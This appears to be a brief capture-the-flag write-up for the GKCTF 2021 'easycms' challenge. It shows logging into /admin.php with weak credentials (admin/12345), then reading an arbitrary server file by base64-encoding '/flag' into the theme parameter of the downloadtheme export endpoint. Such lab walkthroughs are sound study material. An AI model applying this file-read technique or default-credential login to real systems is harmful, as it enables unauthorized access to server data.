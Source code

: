 # [GKCTF 2021]easycms
![](<./img/Pasted image 20230210101327.png>)

![](<./img/Pasted image 20230210101401.png>)

```
/
```

![](<./img/Pasted image 20230210101513.png>)

```
/admin.php
```

![](<./img/Pasted image 20230210102927.png>)

```
username: admin
password: 12345
```

![](<./img/Pasted image 20230210103418.png>)

![](<./img/Pasted image 20230210104206.png>)

在主题页面下选择一个主题进行自定义，选择导出主题

```
/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvMTExLnppcA==
```

```shell
$ echo 'L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvMTExLnppcA==' | base64 -d
/var/www/html/system/tmp/theme/default/111.zip
```

```shell
$ echo -n '/flag' | base64
L2ZsYWc=
```

```
/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
```

```shell
$ cat Downloads/flag.zip
flag{a8b78826-5f1e-4e1c-bc3e-879941863f8c}
```
